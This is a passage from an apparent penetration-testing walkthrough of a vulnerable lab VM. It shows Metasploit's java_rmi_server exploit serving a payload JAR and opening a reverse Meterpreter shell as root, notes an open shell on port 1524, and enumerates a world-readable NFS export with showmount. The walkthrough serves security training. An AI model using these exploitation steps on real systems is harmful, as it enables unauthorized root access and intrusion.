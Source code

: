 ``` plain

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf exploit(java_rmi_server) > set LHOST 192.168.127.159
LHOST => 192.168.127.159
msf exploit(java_rmi_server) > exploit

[*] Started reverse handler on 192.168.127.159:4444 
[*] Using URL: http://0.0.0.0:8080/oVUJAkfU
[*]  Local IP: http://192.168.127.159:8080/oVUJAkfU
[*] Connected and sending request for http://192.168.127.159:8080/oVUJAkfU/WAHKp.jar
[*] 192.168.127.154  java_rmi_server - Replied to request for payload JAR
[*] Sending stage (30355 bytes) to 192.168.127.154
[*] Meterpreter session 2 opened (192.168.127.159:4444 -> 192.168.127.154:36965) at 2014-06-04 22:42:17 +0300
[+] Target 192.168.127.154:1099 may be exploitable...
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > 
```

### Port 1524 shell

Well, not much to say here. There's already a nice, cozy shell waiting for connections, so nothing extra needs to be done.

### Port 2049 nfs

Let's use the the **showmount** command to see the NFS server's export list. This command displays mount information for an NFS server. The -e flag is for showing exports:

``` plain
showmount -e 192.168.127.154

Export list for 192.168.127.154:

/ *
```
